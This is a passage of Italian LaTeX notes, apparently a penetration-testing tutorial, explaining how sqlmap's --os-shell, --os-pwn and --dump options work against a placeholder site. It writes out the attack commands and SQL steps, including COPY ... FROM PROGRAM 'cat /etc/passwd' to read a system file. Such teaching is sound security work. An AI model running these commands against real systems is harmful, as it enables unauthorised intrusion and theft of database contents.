 \documentclass{article}
\begin{document}
\subsubsection{Ottenere una Reverse Shell}
Tramite il parametro \verb|--os-shell| possiamo ottenere una shell per mezzo di \textbf{COPY[nomeTabella]FROM PROGRAM[comando]}:

\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” --os-shell
\end{verbatim}

Quello che avviene è questo:
\begin{itemize}
	\item Creiamo una tabella \textbf{comando} all’interno della quale vi è solo una colonna di tipo testo, chiamata \textit{output}: \verb|CREATE TABLE comando(output text);|
	
	\item Eseguiamo il comando (in questo caso, cat /etc/passwd ) e inseriamo il suo output all’interno della tabella \textbf{comando}: \verb|COPY comando FROM PROGRAM 'cat /etc/passwd';|
	
	\item Recuperiamo l’output dalla tabella \textbf{comando}. Generalmente SQLMap stampa in console l'output trovato:
	\verb|SELECT * FROM comando;|
	
	\item Eliminiamo la tabella \textbf{comando} in quanto non ci serve più: \verb|DROP TABLE IF EXISTS comando;|
\end{itemize}

Alternativamente, con \verb|--os-pwn| è possibile ottenere una Shell OOB, Meterpreter o VNC:

\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” --os-pwn
\end{verbatim}


\newpage
\subsubsection{Dump del database}
Tramite il parametro \verb|--dump| è possibile effettuare un \textbf{dump} del database:
\begin{verbatim}
sqlmap -u “https://mio.sito/path?parametro=test” --dump
\end{verbatim}

Vi sono inoltre anche alcune opzioni utilizzabili:
\begin{itemize}
	\item \verb|--dump-all| per fare il dump di \textbf{tutte le tabelle di tutti i database nel DBMS};
	\item \verb|--exclude-sysdbs| per escludere dal dump le tabelle e i db di sistema;
	\item \verb|--dump -D nomeDB| per fare il dump di uno specifico database;
	\item \verb|--dump -T nomeTab| per fare il dump dei contenuti di una specifica tabella;
	\item \verb|--dump -C nomeCol| per fare il dump dei contenuti di una specifica colonna.
\end{itemize}
\end{document}
